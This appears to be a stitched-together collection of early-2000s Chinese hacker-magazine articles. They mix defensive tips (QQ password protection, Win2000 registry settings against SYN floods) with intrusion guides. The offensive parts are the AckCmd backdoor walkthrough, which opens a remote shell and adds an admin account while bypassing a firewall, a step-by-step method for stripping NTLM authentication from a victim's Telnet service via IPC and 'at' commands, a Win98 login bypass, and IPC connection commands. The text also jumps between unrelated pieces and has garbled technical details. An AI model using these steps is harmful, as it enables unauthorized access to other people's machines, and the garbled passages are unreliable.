采用这种方法防盗也是很有技巧的，比如有时你把QQ号目录给删了怎么还会被盗呢（排除木马和盗QQ的软件因素）？这是因为你没有把QQ的目录彻底删除，不信你打开回收站看看，在那里呢！所以要彻底删除才行，对着QQ号目录按住 Shift 不放，然后按键盘上的 Del 键，这样就可以完全删除了。

不要高兴得太早，这种方法只对一些小虾小蚂有用，可是遇到“大盗”还是不保险。因为虽然已删除的QQ目录在回收站中是没有了，可是在硬盘中还有它们的痕迹，如果用一些恢复软件，很快就可以把这个QQ号目录给还原了，再使用盗QQ密码的软件很快就会把密码偷出来。因此，建议你去下载一款文件粉碎机，用它把QQ目录粉碎掉，这样就安全多了。

#### 八、使用杀毒防黑软件防盗

现在木马越来越多，如什么“灰鸽子”“广外幽灵”“蓝色火焰”等等。由于具有键盘记录功能，所以可以盗走QQ及系统密码。不要怕，只要选好防范这些木马的软件，你就可以高枕无忧地聊啦。比如杀毒软件瑞星2003、金山毒霸2003、东方卫士、KV3000+等。防木马软件有木马克星、木马终结者等。

如果你现在没有那些软件也不要紧，我告诉你一个简单的防盗诀窍：就是你在输入完用户名和密码登录后，然后在键盘上乱输些字母或数字，因为那些黑客软件的记录器记录着你键盘上输入的文字，所以你登录后乱输一些，就不会让那些监视者发现你的密码。

### 九、下载QQ防火墙防盗

上面的方法还不行吗？那一定是你用上了伪QQ软件。该软件和QQ的界面一模一样，你输入密码登录后，它就会把你的QQ密码发到盗QQ者的邮箱，吓人吧！不要害怕，我们还有解决的方法，使用QQ防火墙就是一个好办法。根据我的使用经验，“QQ防火墙”很不错，可以有效地保护你的QQ，下载地址：http://www.flashkd.com/hq。

#### 十、使用进程管理软件防盗

记录QQ密码的木马是很隐蔽的，通过按 Ctrl+Alt+Del 来发现它们是不大可能的。此时，拥有一款进程管理软件就显得很必要，因为以目前的木马程序的编写水平，大多数还无法做到隐藏其进程，所以用进程管理软件就可以发现它们，然后终止该进程则可以有效地防范木马。

www.newhua.com 有下载。以 PrcView 为例，它是一款免费的进程查看工具，可以显示现在运行的进程信息，如图4所示。

这些信息包括这样的细节：生成时间、版本、选定进程使用的 DLL 文件的全路径、所有线程的列表、内存块和堆栈。PrcView 也允许你杀死或附带一个调试器到选定的进程……如果不习惯用它，也可以用系统优化类工具中的进程管理模块来终止可疑进程。建议先到腾讯网站申请QQ防盗保护，再结合上述防范技巧。

## 探秘139端口

关于TCP端口139，大家应该都不算陌生了……这里介绍一些平时未必注意到、但又和TCP端口139关系密切的问题，希望对大家有所帮助。

首先，我们说说为什么系统会开放139端口？139端口是在系统安装 NetBEUI 协议后才开放的端口。安装 NetBEUI 后系统会开放 NetBIOS 端口，并同时开放 TCP 139、UDP 137 和 138。

查看是否安装 NetBEUI 协议很简单，只要查看网卡（或拨号连接）属性，确认 NetBEUI 协议是否被勾选；未安装则选择安装并勾选即可。

我们来做个小实验：一台机器关闭 NetBIOS，另一台开放该端口。通过 Windows 下的 `nbtstat -a ip` 可以看到开放139端口的机器信息（如机器名、工作组、MAC地址）。

如果再配合扫描工具，还可获得更多信息。例如使用：`xport 192.168.0.7 139-139 -t 200 -v`，可探测到系统版本信息（如 Windows NT 5.0）。

在安装 NetBEUI 协议后，共享通常默认通过139端口进行。开放 NetBIOS 虽方便共享，但也会带来安全风险，可能泄露主机相关信息。

大家应该知道 NT 5.0 与 Win2K 版本关系……归根结底，都是因为 NetBIOS 端口开放而暴露了机器信息。接下来还讨论了 Win2K 的 Messenger 服务带来的通信与安全问题。

使用 `net send ip message` 这个命令来传送一些文字信息。如果大家注意到的话，其实 Messenger 服务也是和139端口有关的。

首先我们给自己的机器发送一条信息，内容为 python，使用命令：

```bash
net send 127.0.0.1 python
```

然后我们使用 `netstat -n` 命令来查看当前的端口开放情况，如图3所示。可以看到本机（192.168.0.210）接收该服务发送的信息使用的端口就是139端口。

也许大家看到这里会因为 NetBIOS 端口带来的一些害处而迫不及待地关闭它。这里就讲解一些关闭 NetBIOS 端口的方法。

> LOOK 注意：方法很简单，解除 NetBEUI 与 TCP/IP 协议的绑定，然后删除 NetBEUI 协议。

当然，关闭了 NetBIOS 端口后，也会带来一些问题，因为 NetBIOS 端口的关闭会导致在网络邻居中无法看到其他计算机。

除此之外，还有关于共享的问题。安装了 NetBEUI 协议后，查看并使用对方共享资源时使用的是139端口；而 NetBEUI 协议被删除后，系统会尝试连接445端口，因此共享资源会通过445端口进行传送。

这两个问题是删除 NetBEUI 协议后的两个主要问题，如何选择就看大家了。一般情况下，只要安全措施做到位，安装并绑定 NetBEUI 协议后也不会有太大风险。

### AckCmd 绕过防火墙实验

说起这个程序，可能有些朋友不是很清楚。作者很久以前就发现了它，在 readme 中介绍该程序属于后门程序，连接时使用 ACK 位进行连接，因此可以绕过一些防火墙。

作者做了一些小实验，并向大家介绍其使用方式。

> LOOK 注意：实验系统分别安装 Win2k Pro 和 Windows XP Home Edition；实验防火墙为绿色警戒 v1.11（入侵检测使用默认设置）。

这个软件分两个部分，分别是 AckCmdC.exe 和 AckCmdS.exe。AckCmdS.exe 类似木马服务端（server），AckCmdC.exe 是客户端（client）。

> LOOK 注意：该软件只能在 Win2k 以上版本中使用。

先让对方运行 AckCmdS.exe，然后在本机运行 AckCmdC.exe 与其连接。连接后切换到 AckCmdS.exe 所在目录并执行命令。

```bash
AckCmdS 对方IP地址

AckCmdS 192.168.0.1
```

输入命令后会得到一个 shell，可以继续输入命令建立后门帐号，如图1所示。

这里我就添加了一个用户名为 aaa、密码为空的管理员帐号。在这个过程中，被入侵的主机一直开着绿色警戒，但是并没有收到任何的报警。可见，这确实绕过了防火墙。为什么会这样呢？这么轻松就绕过了防火墙？看来有必要抓包来分析一下了。使用 Sniffer 工具 IRIS，当进行连接的时候开始抓包。如果顺利的话，很快就可以抓到，如图2所示。

通过结果分析可以看到，Port src 和 Port dest 分别为 80 和 1054。这么说，目的端口号为1054，而绿色警戒的入侵检测中，并没有对TCP端口1054进行屏蔽，看起来这就是原因了。图中还有一项，就是 Protocol 这一项，从图中不能清楚地看到，这里的 Protocol 一项下面为“TCP->HTTP”，看来这就是为什么端口连接是80到1054的原因了。这个连接过程完全被模拟成为一个 HTTP 请求，而1054这个端口则是伪装成为一个 IE 打开的临时端口来进行数据传输。

> 小知识：在使用 IE 浏览网页的时候，IE 经常会开启除端口80以外的其他 TCP 端口来进行数据传输，这些端口通常称为临时端口；当 IE 关闭后，传输过程完成，这些端口也会随之关闭。

不过，虽然是模拟成为了一个 HTTP 请求，但是对于严格的防火墙来说，想绕过去还是很困难的。另外，还有一个比较重要的项，那就是 Frame，可以看到 Frame 一项下面为 IP。很明显，这表明这个数据报被封装成为 IP 数据报，那么，也就意味着使用 AckCmd 这个工具，可以在任何支持 TCP/IP 的网络中使用。在广域网上入侵的话，应该是很有用的。从这个实验过程中可以看出来，这个小家伙还是蛮厉害的，所以我决定留在我的工具箱中，来对付一些设置简单的防火墙。虽然这个小玩意用起来很不错，但是还是有一些问题，这里就简单说一说：

#### 1. 传输过程中，数据未经加密

在 Sniff 的过程中，我发现了一个问题，那就是传输过程中的加密问题。从使用 IRIS 嗅探到的数据中，可以非常清楚地看到我在另一台计算机上输入的命令：

```bash
net user aaa /add
```

可见，整个传输过程是未经加密的，完全明文传送。所以结果是显而易见的：这很有可能被其他也正在进行 Sniff 的人嗅探到，这样就可以轻松地夺取你的劳动成果。另外，如果管理员也正在运行 Sniffer 程序的话……呵呵，那他就赚大了，很容易就可以看出这是一个伪装过的 HTTP 请求，而且很容易就可以抓到入侵者。

#### 2. 传输端口单一

通过 Sniff 的结果可以看到，被入侵主机所打开的端口为1054，这个程序所使用的端口是固定的，就像木马一样，这个端口1054就是它打开的端口。所以，只要我们对端口进行简单的屏蔽，就无法使用这个程序了。

为了说明，我们来做一下实验：在绿色警戒的入侵检测中，添加上对端口1054的屏蔽。打开绿色警戒，依次选择“入侵检测”→“配置”→“添加”→“端口”处写上“1054”→“选择TCP端口”→“确定”，如图4所示。

配置完成后，这时候远程主机再使用命令 `AckCmdC 192.168.0.1`。连接后，一切看似正常，这时候使用命令：

```bash
net user bbb /add


```

该命令试图在被入侵主机上建立用户名，绿色警戒会拦截下该数据报，如图5所示。

从拦截的结果中可以看出，远程主机 192.168.0.2 使用端口80与本地机的1054端口进行连接。

#### 3. 不能随机启动

这个后门程序并不能像大多数木马一样，每次随计算机的启动而自动加载。所以，如果想让它每次在计算机重启的时候自动加载，只能使用修改注册表等方法来实现。

### 傻瓜黑客

### 4、容易暴露自己

可以说，面对一些稍有经验的管理员或者个人 PC 用户，这个后门程序基本上是无所遁形了。因为这个程序很容易暴露它自己。最简单的查看方法就是任务管理器，在 Win2K 的任务管理器“进程”项中，很容易就会发现这个程序的服务端 AckCmdS.exe 正在运行，如图6所示。
图6

不但如此，如果是面对个人用户的话，就更加容易暴露了。为什么这么说？因为个人用户的 PC 不会像服务器一样经常开机，基本上每天都要关闭计算机。而就是在关闭计算机的时候，服务端程序 AckCmdS.exe 会因为某些原因而无法立即结束任务，因此会弹出对话框，询问用户是否立即结束该进程，如图7所示。有些时候，甚至会弹出无法结束任务的对话框，要求用户自己手动结束这个任务。
图7

就这一点来说，对一些初级用户应该是比较好蒙骗的，但是稍有经验的用户，就很难瞒住他们了。除了上述两点，还有就是杀毒软件的问题。我曾经在朋友的机器上试图解压缩这个程序的压缩包，却被安装在朋友机器上的诺顿阻止了，并且报告说该压缩包中含有后门程序。因此，对于安装了杀毒软件的机器，这个后门程序也是束手无策。OK，以上就是对后门程序 ACKCMD 的一点简单介绍，大家可以看出，有好有坏，至于如何取舍，呵呵，你看着办吧！

### 认识操作系统

做一名合格的黑客，必须熟识各种应用于网络、比较重要的操作系统。其中有 UNIX、LINUX、WINDOWS NT 等。什么是操作系统？就像一条公路，它是汽车行驶的基础，好的公路能让司机轻松地驾驶汽车行驶。操作系统亦如此，好的操作系统是应用程序、软件良好运行的基础。在这里操作系统就是公路，应用程序就是汽车。对于互联网，TCP/IP 协议就是这条信息高速公路之基础，是网络传输信息的基础协议。

UNIX 操作系统最早的原型是 20 世纪 60 年代末，诞生于 Bell Labs（贝尔实验室）。它的发明者 Ken Thompson 与 Dennis Ritchie 还因此成为仅有的两位获得 Turing Award（电脑界的诺贝尔奖）的工程师。UNIX 公开核心技术，并且是免费的，任何人都可以自由修改，使其适应自己的需要。于是在众多 HACKER 的无偿改良下，UNIX 到现在成为了最强大的操作系统，它的功能强大在现时的互联网得以极致发挥，正所谓如鱼得水。大型网络一般都应用 UNIX 操作系统作为基础平台。因其功能强大、性能稳定、较高的安全性，正是它在网络时代深受欢迎的原因。这时也许你会问，这么好的操作系统为什么在个人电脑里见不到？不是个人计算机的性能比不上大型计算机的原因吗？不然，我们所用的电脑完全能运行 UNIX 系统。但正如 UNIX 功能强大，操作也是复杂的，它的操作方式就像 DOS 般，通过输入命令方式使这庞大系统运行，却远比操作 DOS 系统复杂，这就是个人电脑应用中为什么不使用 UNIX 系统的原因。但现时 UNIX 也有了 CDE 窗口环境版本，使用更为方便。

LINUX 操作系统。Linux 是个坚固、有力、扎实而且免费的作业系统。LINUX 是由上面说的 UNIX 演变而来的。1992 年，一位芬兰 Helsinki University 的学生——Linus Torvalds 开始在一台 386 PC 上发展一个自由软件的 UNIX kernel，使用 FSF 的程序开发工具。他很快地写好简单的版本，丢到网络上分享给大家，吸引了非常多的 Hacker 来帮忙一起发展 Linux——一个功能完整的 UNIX，完全免费且附上全部的原始码。Linux 最大的特色，不是功能上的先进，而是全新的软件开发模式。直到 Linux 的成功前，人人都认为像操作系统这么复杂的软件，非得要靠一个开发团队密切合作、互相协调与分工才有可能写得出来。Linux 更是许多努力的成果：世界上有数千位开发人员对 Linux 做出贡献，他们增加新的功能、修改错误，而且仍不断尽其所能改进它。因此，流行着众多版本，比较著名的有 RedHat、OpenLinux 等外国产品，国产的则有红旗 LINUX、蓝点 LINUX 等。又要感谢勤奋的 HACKER 们为我们带来一个被预言为最有希望的新操作系统，成为打败微软价格昂贵的 WINDOWS 操作系统的最大希望。Linux 可以在任何基础电脑硬件上执行，而且它还具有像 WINDOWS 的视窗环境，操作简易、方便，于是越来越多地出现在个人计算机中。

WINDOWS NT 操作系统，其较新的版本为 WINDOWS 2000，即 WINNT 5.0。由微软出品的商业软件，它跟一般个人计算机应用的 WINDOWS 95/98 差不多，但性能却要优于 WINDOWS 95/98，是专用于网络的 WINDOWS 操作系统系列。与 UNIX、LINUX 操作系统相比，操作更为方便，性能也比较强，得到众多中小型网络用户青睐。但安全性、稳定性比较差，不公开源代码，不允许修改，不允许复制，价格却昂贵，一个正版的 WINDOWS 98 就要卖 1998 元人民币，WINDOWS NT 就更甚之。因此被 HACKER 们认为最没希望的操作系统。

## 拒绝淹没是提高 Win2000 抗拒绝服务攻击能力

从正确看待 DoS 与 DDoS 说起。相信大家都一定不会对这两个词感到陌生：拒绝服务攻击（Denial of Service），以及分布式拒绝服务攻击（Distributed Denial of Service）。
> 所谓拒绝服务，是指在特定攻击发生后，被攻击的对象不能及时提供正常服务的需求……其基本思路通常是利用大量网络数据包，以淹没对方网络及主机，使正常用户无法获得主机及时的服务。

也许是和媒体的过分关注有关，DoS 攻击特别是 DDoS 攻击，似乎一夜之间就流行了起来……

其实在我们的周围，真正意义上的 DDoS 其实并不多……普通级别的攻击如何防护，也成为很多网络管理员头疼的问题。

其实从操作系统角度来说，本身就藏有很多功能，只是很多是需要我们慢慢去挖掘。这里我给大家简单介绍一下如何在 Win2000 环境下修改注册表，增强系统的抗 DoS 能力。

#### 细节

```reg
Windows Registry Editor Version 5.00
[HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Services\Tcpip\Parameters]
```

- 关闭无效网关的检查。通过关闭它可以优化网络。  
```reg
"EnableDeadGWDetect"=dword:00000000
```

- 禁止响应 ICMP 重定向报文。系统应该拒绝接受 ICMP 重定向报文。  
```reg
"EnableICMPRedirects"=dword:00000000
```

- 不允许释放 NETBIOS 名。攻击者发出查询请求时，服务器可禁止响应。  
```reg
"NoNameReleaseOnDemand"=dword:00000001
```

- 发送验证保持活动数据包。该选项决定 TCP 间隔多少时间来确定当前连接状态。  
```reg
"KeepAliveTime"=dword:000493e0
```

- 禁止进行最大包长度路径检测。设置值为 0 表示使用固定 MTU 值 576 bytes。  
```reg
"EnablePMTUDiscovery"=dword:00000000
```

- 启动 SYN 攻击保护。值为 1 和 2 表示启动保护，2 的安全级别更高。  
```reg
"SynAttackProtect"=dword:00000002
```

- 同时允许打开的半连接数量。服务器设为 100，高级服务器设为 500。  
```reg
"TcpMaxHalfOpen"=dword:00000064
```

- 判断是否存在攻击的触发点。服务器为 80，高级服务器为 400。  
```reg
"TcpMaxHalfOpenRetried"=dword:00000050
```

- 设置等待 SYN-ACK 时间。微软站点安全推荐为 2。  
```reg
"TcpMaxConnectResponseRetransmissions"=dword:00000001
```

- 设置 TCP 重传单个数据段的次数。微软站点安全推荐为 3。  
```reg
"TcpMaxDataRetransmissions"=dword:00000003
```

- 设置 SYN 攻击保护的临界点。微软站点安全推荐为 5。  
```reg
"TCPMaxPortsExhausted"=dword:00000005
```

- 禁止 IP 源路由。值为 0 表示全部转发，值为 2 表示丢弃所有接收的源路由包。  
```reg
"DisableIPSourceRouting"=dword:00000002
```

- 限制处于 TIME_WAIT 状态的最长时间为 30 秒，最高为 300 秒。建议设为 30 秒。  
```reg
"TcpTimedWaitDelay"=dword:0000001e
```

```reg
[HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Services\NetBT\Parameters]
```

- 增大 NetBT 的连接块增加幅度。缺省为 3，范围 1-20，数值越大在连接越多时提升性能。每个连接块消耗 87 个字节。  
```reg
"BacklogIncrement"=dword:00000003
```

- 最大 NetBT 的连接块数目。范围 1-40000，这里设为 1000，数值越大在连接越多时允许更多连接。  
```reg
"MaxConnBackLog"=dword:000003e8
```

```reg
[HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Services\Afd\Parameters]
```

- 配置激活动态 Backlog。对于网络繁忙或者易遭受 SYN 攻击的系统，建议设为 1，表示允许动态 Backlog。  
```reg
"EnableDynamicBacklog"=dword:00000001
```

- 配置最小动态 Backlog。默认项值为 0，表示动态 Backlog 分配的自由连接的最少数目。对于网络繁忙或者易遭受 SYN 攻击的系统，建议设置为 20。  
```reg
"MinimumDynamicBacklog"=dword:00000014
```

- 最大动态 Backlog。表示定义最大“准”连接的数目，主要看内存大小，理论上每 32M 内存最大可以增加 5000 个，这里设为 20000。  
```reg
"MaximumDynamicBacklog"=dword:00004e20
```

- 每次增加的自由连接数据。默认项值为 5，表示定义每次增加的自由连接数目。对于网络繁忙或者易遭受 SYN 攻击的系统，建议设置为 10。  
```reg
"DynamicBacklogGrowthDelta"=dword:0000000a
```

以下部分需要根据实际情况手动修改。启用网卡上的安全过滤，同时打开的 TCP 连接数，以及 TCP 报头缓存大小限制等参数。

```reg
[HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Services\Tcpip\Parameters]
"EnableSecurityFilters"=dword:00000001
"TcpNumConnections"=
"TcpMaxSendFree"=
```

```reg
[HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Services\Tcpip\Parameters\Interfaces\{自己的网卡接口}]
"PerformRouterDiscovery"=dword:00000000


```

从提高系统安全级别、对抗 DoS 的角度来说，上面所做的修改注册表还仅仅是其中一个很小的部分。后续还将继续整理资料分享。
虽然 WINXP 操作系统已经出来好久了，但是还是有许多人用着 WIN98。作者介绍了一个在 WIN9X 下通过输入密码限制进入系统的软件与思路。
图1下文说明了通过输入法帮助文件漏洞相关条件进入后续步骤。

#### 具体过程如下

首先进入如图1界面，点击“关于”或“设置/更改密码”出现窗口，再将其关闭。
接着可用 Ctrl+Shift 切换输入法，右击状态栏并点击帮助，出现如图3所示对话框。
再点击 Y 键，出现如图4所示窗口。图中圈内为 winabc.hlp，是智能 ABC 输入法的帮助文件名。接着只要把它改成“*”（星号），再按下回车，就可以浏览所有的硬盘内容了。除了控制面板，包括光驱、软驱都能用。

注意：如果双击的话是打不开的。这里我以打开注册表编辑器为例，如图5所示。
如果想打开什么，只需选中文件，然后右击，选择打开即可。

好了，就这么简单绕过了。我有一点想不明白，帮助文件没有了就没有了，为什么还要手动查找，真是人性化的设计啊？所以说，有时候不该删的东西还是不删为妙，要不没准漏洞就产生了。本文的主要目的是让大家提高防止漏洞的意识。

### 浅析 SYN Flood 的基本原理

SYN Flood 是当前最流行的 DoS（拒绝服务攻击）方式之一。这是一种利用 TCP 协议缺陷，发送大量伪造的 TCP 连接请求，从而使得被攻击方资源耗尽（CPU 满负荷或内存不足）的攻击方式。在 SYN Flood 攻击中，攻击者使用大量伪装的 IP 地址向目标计算机发送网络连接请求，以占用目标计算机尽量多的资源，导致服务器拒绝服务。

要明白这种攻击的原理，涉及到 TCP 建立连接的 3 次握手原理（Three-way Handshake）。

#### 一个 TCP 连接的过程是这样的

首先，客户端发送一个包含 SYN（Synchronize sequence numbers）标志的 TCP 报文，向服务器某一端口表示需要连接。比如发送包假设请求序号为 10，那么则为：SYN=10，ACK=0，然后等待服务器的响应。

第二步：服务器接收到这样的请求后，查看该端口是否处在 LISTEN 的状态；如果不是，就发送 RST=1 应答，拒绝建立连接。如果该端口处在 LISTEN 状态，那么服务器发送报文确认，ACK 位则是客户端的请求序号加 1，变成：SYN=10，ACK=1，用这样的数据发送给客户端。向客户端表示，服务器连接已经准备好了，等待客户端的确认。这时客户端接收到消息后，分析得到的信息，准备发送确认连接信号到服务器。

第三步：客户端发送确认建立连接的消息给服务器。确认信息的 SYN 位是服务器发送的 ACK 位，ACK 位是服务器发送的 SYN 位加 1。即：SYN=11，ACK=11。这时，连接已经建立起来了。以上的连接过程在 TCP 协议中被称为三次握手。

当目标计算机收到请求后，就会使用一些系统资源来为新的连接提供服务，接着回复 SYN+ACK。假如一个用户向服务器发送了 SYN 报文后突然宕机或掉线，那么服务器在发出 SYN+ACK 应答报文后是无法再收到客户端的 ACK 报文的（第三次握手无法完成）。一些系统都有缺省的回复次数和超时时间，这种情况下服务器端一般会重新发送 SYN+ACK 给客户端，只有达到一定次数或者超时，占用的系统资源才会被释放。这段时间的长度我们称为 SYN Timeout，一般来说这个时间是分钟数量级（大约为 30 秒-2 分钟），Windows NT4.0 中缺省设置为可重复发送 SYN-ACK 答复 5 次。

一个用户出现异常导致服务器的一个线程等待 1 分钟并不是什么很大的问题，但如果有一个恶意的程序模拟这种情况，服务器端将为了维护一个非常大的半连接列表而消耗非常多的资源。数以万计的半连接，即使是简单的保存并遍历，也会消耗非常多的 CPU 时间和内存，何况还要不断对这个列表中的 IP 进行 SYN+ACK 的重试。

即使服务器端系统足够强大，服务器端也将忙于处理攻击者伪造的 TCP 连接请求而无暇理睬客户的正常请求（毕竟客户正常请求比率非常之小），此时从正常客户的角度看来，服务器失去响应了。

下面看看对一个 ICHAT 服务器的 SYN Flood 测试，如图1、图2所示。（本机配置为 PIII 800EB 256RAM 带宽 56k）
由于这个连接没有断开，所以服务器还会对我这边发送数据；但是我尝试再用浏览器连接服务器的 8000 端口时，已经不能连上。这是因为服务器现在处于 SYN-RECEIVED 状态下的连接数量非常多。当达到端口的极限时，就不能再接受正常用户的连接请求了，如图3所示。

### 傻瓜黑客

每秒钟大约发送 5kb 的数据报，但这是以拖垮 ICHAT 服务器来说。其实也说不上是拖垮，这个 ICHAT 服务器开了 5 个房间，我只对一个端口测试，在测试过程中，其它端口是可以访问的。这也就是说，即使不能使系统当机，也足以令特定端口拒绝服务。
老实说，对 SYN Flood 攻击目前尚没有很好的监测和防范方法。传统的防火墙软件都是对特定端口或 IP 的过滤。但作为一般服务器，又没有必要购买硬件防火墙，这样就比较矛盾了。服务器一旦开了端口，就有可能会遭受 SYN Flood 的攻击，而且攻击者使用的是大量伪造的 IP，这也给追踪攻击者的物理位置带来困难。不过通过一系列的设定，也能从一定程度上降低被攻击系统的负荷，减轻负面的影响。

值是系统允许同时打开的半连接，Win2K PRO 和 SERVER 是 100，ADVANCED SERVER 是 500。增加一个 TcpMaxHalfOpenRetried 的键值，类型为 REG_DWORD，取值范围是 80–0xFFFF。Win2K PRO 和 SERVER 是 80，ADVANCED SERVER 是 400。这个值决定了在什么情况下系统会打开 SYN 攻击保护。

附：一个修改以上键值的 vbs 脚本（setup.vbs），已收录于“木马修改注册表”中。

```vb
msgbox "Win2000 SYN Flood 防御脚本"
call syn()
sub syn()
  dim o,inf,m
  inf="请选择你的 WIN2000 版本号..."
  set o = createobject("wscript.shell")
  o.regwrite "HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Services\Tcpip\Parameters\SynAttackProtect",2,"REG_DWORD"
  m=inputbox(inf,"Win2000 SYN Flood 防御脚本",1)
  if m=1 then
    o.regwrite "...\TcpMaxHalfOpen",100,"REG_DWORD"
    o.regwrite "...\TcpMaxHalfOpenRetried",80,"REG_DWORD"
  elseif m=2 then
    o.regwrite "...\TcpMaxHalfOpen",500,"REG_DWORD"
    o.regwrite "...\TcpMaxHalfOpenRetried",400,"REG_DWORD"
  elseif m=0 then
    exit sub
  else
    msgbox "非法字符"
    call syn
  end if
end sub


```
对于 Win2000 来讲，可以通过修改注册表来降低 SYN Flood 的危害。找到 `HKEY_LOCAL_MACHINE\System\CurrentControlSet\Services\Tcpip\Parameters` 键，增加一个 `SynAttackProtect` 的键值，类型为 REG_DWORD，取值范围是 0–2。这个值决定了系统受到 SYN 攻击时采取的保护措施，包括减少系统 SYN+ACK 的重试次数等。默认值是 0，推荐设置是 2。
> **注意**：有一种扫描器叫 SYN 半开扫描。原理是客户端向服务器某一端口发送一个 SYN 报文，服务器响应后，客户端不再发送第三次握手，因此服务器端不会建立完整 TCP 连接。NMAP 的 `-sS` 参数就是这种 SYN 半开扫描。

### 去除 NTLM 验证全攻略

使用 Win2000 的 Telnet 服务做入侵后门时，由于 NTLM（NT LAN MANAGER）验证导致整个过程非常烦琐。这里向大家介绍几种去除 NTLM 验证的方法。

#### 一、使用工具去除 NTLM 验证

- 1. 获得对方管理员账号和密码。  
- 2. 建立 IPC 连接后，复制一个程序到对方机器上（比如 `NTLM.EXE`，流光的 tools 文件夹里有）。  
- 3. 运行 `AT` 命令远程定时执行该程序，即可去除 NTLM 验证（如图 1）。
#### 二、修改远程注册表去除 NTLM 验证

- 1. 获得对方管理员账号和密码。  
- 2. 建立 IPC 连接后打开本地注册表编辑器，通过“连接网络注册表”连接对方机器，定位到：  
  `HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\TelnetServer\1.0`  
  将 NTLM 键值从默认 `2` 改为 `1` 或 `0`（如图 2）。

**补充：**  
`0`：不使用 NTLM 身份验证，改用用户名/密码验证。  
`1`：优先 NTLM，失败后再用用户名/密码验证。  
`2`：仅使用 NTLM 身份验证。
#### 三、修改自己的连接身份去除 NTLM 验证

- 1. 获得对方管理员账号和密码。  
- 2. 在自己机器上添加一个与对方相同的账号。  
- 3. 右键“命令提示符”→属性→“以其他用户身份运行”，重启命令提示符后在弹框中输入刚创建的账号（如图 3、图 4）。

这样你 Telnet 对方时，就不需要 NTLM 验证了。
#### 四、手动去除 NTLM 验证

- 1. 获得对方管理员账号和密码。  
- 2. 建立 IPC 连接后，按顺序执行多条 `at` 命令。

```bash
at \\ip time "echo 3 >> c:\\n.txt"
at \\ip time "echo 7 >> c:\\n.txt"
at \\ip time "echo y >> c:\\n.txt"
at \\ip time "echo 0 >> c:\\n.txt"
at \\ip time "echo y >> c:\\n.txt"
at \\ip time "echo 0 >> c:\\n.txt"
at \\ip time "echo 0 >> c:\\n.txt"
at \\ip time "c:\\winnt\\system32\\tlntadmn.exe < c:\\n.txt"
at \\ip time "del c:\\n.txt /f"


```
记住是单步执行，不要一次把命令全输完。命令执行完成后，对方的 NTLM 验证也就消除了（如图 5）。

#### 总结

- 方法一简单实用，但需要手头有 `NTLM.exe`。  
- 方法二较安全可靠，但相对烦琐。  
- 方法三无需改远程服务器权限即可去除 NTLM，推荐。  
- 方法四命令较多，但通过复制后做简单修改即可快速完成，推荐。

### 两个菜鸟的黑客杂记
有许多网友向我询问一些基本概念的东西，下面我把关键性的东西整理出来，希望能给大家带来些知识，解决一些模糊的问题，同时感谢给我提供素材的网友。

小菜鸟：什么是 IPC？

大菜鸟：IPC 是 Internet Process Connection 的缩写，也就是远程网络连接。它是 Windows NT 及 Windows 2000/XP 特有的一项功能，就是在两个计算机进程之间建立通信连接。然后，一些网络通信程序的通信可以建立在 IPC 上面。打个比方，IPC 连接就像是挖好的地道，然后我们用程序通过地道访问远程主机。默认情况下，IPC 是共享的，也就是说微软已经为我们接好了这个地道（IPC），因此，这种基于 IPC 的入侵也常被简称为 IPC 入侵。

**注意**：不是说所有的程序都可以或者都必须用 IPC 与远程主机通信。一般来说 IPC 只为微软系统自带命令（程序）服务。另一种最常用的通信方式叫做 SOCKET。

小菜鸟：那么 IPC 后面有一个 `$` 是什么意思？

大菜鸟：共享的意思，但是是隐藏共享。微软系统中用 `$` 表示隐藏共享，比如 C$ 就是隐藏共享 C 盘。就是说 C 盘是共享的，但是 C 盘没有那个“托手”标志。

小菜鸟：建立 IPC 连接需要什么条件？

大菜鸟：首先自己的系统应该是 WinNT 以上的，Win98 不可以，因为 Win98 网络管理这方面的功能很少，Win98 没有 IPC，这点在前面也说过，IPC 是 WinNT 和 Win2K/XP 才有的。其次是你想攻击的主机也需要是 WinNT/2K/XP，不可以用 IPC 攻击 Win98。

小菜鸟：那我怎么才能建立 IPC 连接呢？需要什么黑客工具呢？

大菜鸟：建立 IPC 连接不需要任何黑客工具，在 Windows 里敲命令行就行了，但是需要知道远程主机的用户名和密码。打开 MS-DOS 后用如下命令：`net use \\ip\ipc$ "password" /user:"username"` 进行连接。

小菜鸟：我又听说有个 IPC 空连接，这个又是怎么回事呢？

大菜鸟：这是微软的一个著名漏洞，对于这类漏洞的机器，不需要用户名和密码就可以建立 IPC 连接，但是这种连接是得不到什么权限的。

小菜鸟：连接上了又能做些什么呢？

大菜鸟：那就说来话长了，可以夸口一点说，可以做任何事情。具体你可以参见《黑客X档案》2003 年第二期中的《入侵全攻略》，上面有关于这方面的介绍，保准你会入门的。

小菜鸟：原来 IPC 连接还需要用户名和密码呀，那为什么有的软件只要对方运行服务端，而不设密码呢？

大菜鸟：那样的软件叫木马，由于木马修改了原系统的设置，所以可以不需要密码。但我上面介绍的方法是通过微软系统的正规手段进入的，所以要密码！

小菜鸟：怎么关掉 ipc$？

大菜鸟：可以通过修改注册表，但是最简单的方法是 `net share ipc$ /del`。

小菜鸟：假如我关掉，我还能主动与其他主机连接吗？

大菜鸟：不能啊。。

小菜鸟：当黑客需要什么知识？

大菜鸟：系统、网络、编程。还要有道德知识，呵呵……

小菜鸟：对对！你有什么黑客基础教程的电子书吗？

大菜鸟：你可以常去黑客论坛转转，那里高手多多。

小菜鸟：UNIX 是什么？

大菜鸟：系统！

小菜鸟：是关于什么的，与 Win 有什么区别？

大菜鸟：和 Win 一个地位，但是没有 Win 挣钱，呵呵……

小菜鸟：UNIX 是用来管理网络的吧？

大菜鸟：也可以这样说，但是网络管理功能现在 Windows 也很成熟。之所以银行、军队都用 UNIX，主要是因为 UNIX 开放源代码，系统里面就不会有“文章”。而 Win 不开放源代码，所以系统中可能有“文章”，因此一旦关系到军事机密的东西，美国就可能利用 Windows 系统中那些鲜为人知的后门进入敌军系统，破坏敌军通信网。

小菜鸟：那 Linux 是什么，它与 Win 又有什么区别？

大菜鸟：Linux 是 UNIX 发展过来的一个变种。与 UNIX 相比，Linux 主要面向个人用户。

小菜鸟：病毒指什么？

大菜鸟：一般是很小的一段程序，能够对系统进行“另类”操作。现在的病毒大多都是和网络有关的病毒了，而不是单独感染一台机器。

